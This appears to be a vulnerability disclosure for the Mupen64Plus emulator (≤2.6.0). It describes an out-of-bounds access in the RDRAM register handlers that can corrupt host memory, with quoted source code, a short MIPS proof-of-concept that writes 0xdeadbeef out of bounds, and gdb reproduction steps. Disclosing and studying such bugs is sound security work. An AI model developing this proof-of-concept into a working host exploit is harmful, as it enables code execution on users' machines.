 #### Introduction

Mupen64Plus is a cross-platform, plugin-based N64 emulator capable of accurately running many games. It includes four MIPS R4300 CPU emulators with dynamic recompilers for 32-bit x86 and 64-bit amd64 systems, along with necessary plugins for audio, graphical rendering (RDP), signal co-processor (RSP), and input. Among these is an OpenGL video plugin called RiceVideo, as well as three other excellent video plugins maintained by wahrhaft: Arachnoid, Glide64, and Z64.

We discovered an array overflow vulnerability in Mupen64Plus, which can overwrite function pointers in the host machine's memory, enabling arbitrary command execution on the host.

Official Website: https://mupen64plus.org/  
Affected Versions: <= 2.6.0  

#### Analysis

We analyzed the following code snippet: `uint32_t reg = rdram_reg(address)`, where the `reg` variable is calculated based on the `address` variable, and memory is accessed via `*value = rdram->regs[module][reg];`.

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rdram/rdram.c#L159
void read_rdram_regs(void* opaque, uint32_t address, uint32_t* value)
{
    struct rdram* rdram = (struct rdram*)opaque;
    uint32_t reg = rdram_reg(address);
    size_t module;

    if (address & RDRAM_BCAST_ADDRESS_MASK) {
        DebugMessage(M64MSG_WARNING, "Reading from broadcast address is unsupported %08x", address);
        return;
    }

    module = get_module(rdram, address);
    if (module == RDRAM_MAX_MODULES_COUNT) {
        *value = 0;
        return;
    }

    *value = rdram->regs[module][reg];

    /* some bits are inverted when read */
    if (reg == RDRAM_MODE_REG) {
        *value ^= UINT32_C(0xc0c0c0c0);
    }
}
```

The following is the implementation of `rdram_reg`. By analyzing edge cases, we found that `(0x3ff >> 2) == 255`, meaning the range of `reg` is `0-255`.

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/master/src/device/rdram/rdram.h#L60
static osal_inline uint32_t rdram_reg(uint32_t address)
{
    return (address & 0x3ff) >> 2;
}
```

Next, we analyzed the structure of `struct rdram* rdram`. Below is the definition of the `rdram` structure, where the `reg` array is an 8x10 two-dimensional array.

```c
#define RDRAM_REGS_COUNT 10
#define RDRAM_MAX_MODULES_COUNT 8 
// https://github.com/mupen64plus/mupen64plus-core/blob/master/src/device/rdram/rdram.h#L50
struct rdram
{
    uint32_t regs[RDRAM_MAX_MODULES_COUNT][RDRAM_REGS_COUNT];

    uint32_t* dram;
    size_t dram_size;

    struct r4300_core* r4300;
};
```

Since the range of `reg` is `0-255`, and `rdram->regs[module][reg]` is an 8x10 two-dimensional array, when `reg` exceeds 10, an array overflow occurs, potentially corrupting other structures in the host machine's memory.

Additionally, this vulnerability also exists in the `write_rdram_regs` function.

```c
void write_rdram_regs(void* opaque, uint32_t address, uint32_t value, uint32_t mask)
{
    struct rdram* rdram = (struct rdram*)opaque;
    uint32_t reg = rdram_reg(address);
    size_t module;
    size_t modules = get_modules_count(rdram);
    
    ...
    if (address & RDRAM_BCAST_ADDRESS_MASK) 
    ...
    else {
        module = get_module(rdram, address);
        if (module != RDRAM_MAX_MODULES_COUNT) {
            masked_write(&rdram->regs[module][reg], value, mask);
        }
    }
}
```

#### Reproduction

- poc.asm

```
.text
.global main
main:
    li  $a0, 0x83f00140
    li  $a1, 0xdeadbeef
    sw  $a1, 0($a0)
    li  $a0, 0x80000000
    lw  $a1, 0($a0)
```

```bash 
$ proxychains git clone https://github.com/mupen64plus/mupen64plus-core.git
$ cd mupen64plus-core/tools/
$ vim build_bundle_bin.sh     # Delete the last line `rm -rf "${TEMPDIR}"`
$ ./build_bundle_bin.sh 2.6.0 2.6.0-debug OPTFLAGS=-O0 DEBUG=1 DEBUGGER=1 V=1
$ tar xf mupen64plus-bundle-2.6.0-debug.tar.gz
$ cd mupen64plus-bundle-2.6.0-debug/
$ gdb -nh --args ./mupen64plus --debug --emumode 0 ./m64p_test_rom.v64
(gdb) set breakpoint pending on
(gdb) b write_rdram_regs
Function "write_rdram_regs" not defined.
Breakpoint 1 (write_rdram_regs) pending.
(gdb) run
...
PC at 0xA4000040.
(dbg) write 0xA4000040 w 0x3c0483f0
(dbg) write 0xA4000044 w 0x34840140
(dbg) write 0xA4000048 w 0x3c05dead
(dbg) write 0xA400004c w 0x34a5beef
(dbg) write 0xA4000050 w 0xac850000
(dbg) asm 0xA4000040 7 5
Disassembly of 7 instructions @ 0xa4000040:
  0 a4000040 [3c0483f0] lui $a0,0x83f0
  1 a4000044 [34840140] ori $a0,$a0,0x140
  2 a4000048 [3c05dead] lui $a1,0xdead
  3 a400004c [34a5beef] ori $a1,$a1,0xbeef
  4 a4000050 [ac850000] sw $a1,0($a0)
(dbg) run
```

![](./asserts/gdb.png)